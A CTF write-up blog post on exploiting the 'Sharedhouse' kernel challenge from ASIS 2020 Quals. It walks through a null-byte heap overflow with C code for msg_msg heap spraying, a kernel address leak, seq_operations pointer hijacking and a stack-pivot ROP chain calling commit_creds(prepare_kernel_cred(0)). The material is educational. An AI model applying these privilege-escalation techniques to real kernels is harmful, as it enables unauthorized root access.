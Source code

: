 ```yaml
---
layout: post
title: Sharedhouse - ASIS 2020 Quals
date: 2021-05-13 19:04:04
summary: Exploit for the challenge Sharedhouse from ASIS 2020 Quals.
tags:
 - kernel
 - ctf
 - asis 2020
---
```



In my previous [post](https://souragc.github.io/2021/05/13/setting-up-env-for-kernel/) I used this as an example to show how to start debugging a kernel challenge.
Now let's see how to exploit this challenge. For the writeups that come after this, I will be
skipping the last part which is pretty much the same for almost all challenges.


### Analysis

As we have seen already, they have given the module inside the `rootfs.cpio`. Also we have seen
that smap and kpti are disabled. This means we can just stack pivot to userspace and execute
a rop chain. Let's open it in ida and see if we can find the bug.

Looks like it is a kernel heap challenge with 4 options:
- Add: Creates a chunk.
- Free: Frees the chunk that was created using add.
- View: Copies the data in the chunk to user.
- Edit: Copies data from user to kernel and puts it in the chunk created using add.
Bug is in this option. 

```c
if ( !note || v4 > size || copy_from_user(note, v5, v4) )
      goto LABEL_10;
*(note + v4) = 0;
```

We can see that it copies the data and then nulls the next byte. So if we give the data which is
same as length given, we get a null byte overflow. Since the kernel uses slab allocater, heap
will have pointer to next free chunk. We can use this to get leak as well as get rip.

### Kernel leak

Before going into how to leak, let's write the helper functions.

```c
void op(){
    fd = open("/dev/note",O_RDWR);
    if(fd<0){
        perror("Open");
    }
}


void add(ulong size){
    req q;
    q.size = size;
    int ret = ioctl(fd,ADD,&q);
    if(ret<0){
        perror("Add");
    }
}

void rm(){
    req q;
    int ret = ioctl(fd,RM,&q);
    if(ret<0){
        perror("rm");
    }
}

void edit(ulong size, char * buf){
    req q;
    q.size = size;
    q.buf = buf;
    int ret = ioctl(fd,EDIT,&q);
    if(ret<0){
        perror("Edit");
    }
}

void view(ulong size, char * buf){
    req q;
    q.size = size;
    q.buf = buf;
    int ret = ioctl(fd, VIEW, &q);
    if(ret<0){
        perror("View");
    }
}

```

Now to leak, we will be using the `msg_msg` strcut. You can find many other useful structs [here](https://ptr-yudai.hatenablog.com/entry/2020/03/16/165628).
We need to setup some things before we can start allocating the msg_msg struct.


```c
struct {
    long mtype;
    char mtext[0x80];
} msgbuf;


if ((qid = msgget(IPC_PRIVATE, 0666 | IPC_CREAT)) == -1) {
    perror("msgget");
    return -1;
}
msgbuf.mtype = 1 ;
memset(msgbuf.mtext, 'A', sizeof(msgbuf.mtext));

```

After this, we spray the heap to remove the chunks that might be in the middle of some other things.
Heap will not be contiguous. So we have to make it contiguous using the spray.

```c
for(int i = 0; i < 0xf; i++) {
    if (msgsnd(qid, &msgbuf, sizeof(msgbuf.mtext) - 48, 0) == -1) {
        perror("msgsnd");
        return -1;
    }
}

```
Note that here our msg_msg struct size will be 0x80. Depending on the size of the struct, our spray 
number will change. Our next allocated chunk will be this:

```sh
0xffff88800e777080:	0x0000000000000000	0x0000000000000000
0xffff88800e777090:	0x0000000000000000	0x0000000000000000
0xffff88800e7770a0:	0x0000000000000000	0x0000000000000000
0xffff88800e7770b0:	0x0000000000000000	0x0000000000000000
0xffff88800e7770c0:	0x0000000000000000	0x0000000000000000
0xffff88800e7770d0:	0x0000000000000000	0x0000000000000000
0xffff88800e7770e0:	0x0000000000000000	0x0000000000000000
0xffff88800e7770f0:	0x0000000000000000	0x0000000000000000
0xffff88800e777100:	0xffff88800e777180	0x0000000000000000
0xffff88800e777110:	0x0000000000000000	0x0000000000000000
0xffff88800e777120:	0x0000000000000000	0x0000000000000000
0xffff88800e777130:	0x0000000000000000	0x0000000000000000
0xffff88800e777140:	0x0000000000000000	0x0000000000000000
0xffff88800e777150:	0x0000000000000000	0x0000000000000000
0xffff88800e777160:	0x0000000000000000	0x0000000000000000
0xffff88800e777170:	0x0000000000000000	0x0000000000000000
0xffff88800e777180:	0xffff88800e777200	0x0000000000000000

```
In this, `0xffff88800e777100` is the next free chunk. So if we overflow into that, it will make the
chunk point to itself.

```c
add(0x80);
edit(0x80, (void*)buf);
rm();

```

We are removing the chunk because when we add, if there is already a chunk, it will free causing issue later on.
After this we have to remove the chunk that we freed now since it will be in top on the freelist. For this, we use
msg_msg again.


```c
if (msgsnd(qid, &msgbuf, sizeof(msgbuf.mtext) - 48, 0) == -1) {
    perror("msgsnd");
    return -1;
}

```
Now the next two allocations of size 0x80 will return the same chunk. To get the leak, we can use any struct of size 0x80.
Here we will be using `subprocess_info`. You can find the struct [here](https://elixir.bootlin.com/linux/latest/source/include/linux/umh.h#L19).

```c
add(0x80);
int pd = socket ( 22 , AF_INET, 0 );
view(0x80,(void *)buf);
ulong base = buf[3]-0x60160;
printf("base @ %p",(void *)base);
rm();

```
We will be using the same bug to get rip control.

### RIP

Overwriting a pointer in any struct that can be invoked can give us rip. Since there is no smap or kpti, we can just
stack pivot and execute rop of `commit_creds(prepare_kernel_cred(0))`.

To get rip, we will be using another struct: `seq_operations`.

```c

struct seq_operations {
	void * (*start) (struct seq_file *m, loff_t *pos);
	void (*stop) (struct seq_file *m, void *v);
	void * (*next) (struct seq_file *m, void *v, loff_t *pos);
	int (*show) (struct seq_file *m, void *v);
};
```

We will be overwriting all the pointers in this. To get the struct, we open `/proc/self/stat` and to invoke the pointer,
we call read on the opened file. As before, we have to spray heap till the memory is contiguous. After that we invoke the
null byte overflow.
```c
for(int i=0;i<0x89;i++){
    open("/proc/self/stat",O_RDONLY);
}
add(0x20);
edit(0x20,(void * )buf);
rm();
open("/proc/self/stat",O_RDONLY);
add(0x20);
int ufd = open("/proc/self/stat",O_RDONLY);
```

If we now edit the chunk, we get write on the last opened file. We can confirm this by overwriting pointers with junk and
the kernel will crash.

Now it's time to make the rop chain. We need to find a gadget that can be used to pivot to userspace. I found this `mov esp,0x83c389c0 ; ret`
in the kernel. We can `mmap` a memory in that range and use that. Now we need to find gadgets that can set registers properly. If you have
done rop in userspace, this is pretty much the same. To get the offset to the functions, we can use `/proc/kallsyms`. You can read [this](https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/)
to understand the rest of the rop chain.
After this we edit the chunk and call on the opened file.

```c
buf[0]=mov_rsp;
buf[1]=mov_rsp;
buf[2]=mov_rsp;
buf[3]=mov_rsp;
edit(0x20,(void*)buf);
read(ufd,buf,1);*
```

You can find the full exploit [here](https://github.com/souragc/CTFs/blob/master/kernel/solved/shared_house/exp.c).
### Conclusion

I have not explained everything that was done. I have given links to blogs that I used to learn. Also this exploit was heavily inspired by
[this](https://smallkirby.hatenablog.com/entry/2021/02/13/230520).
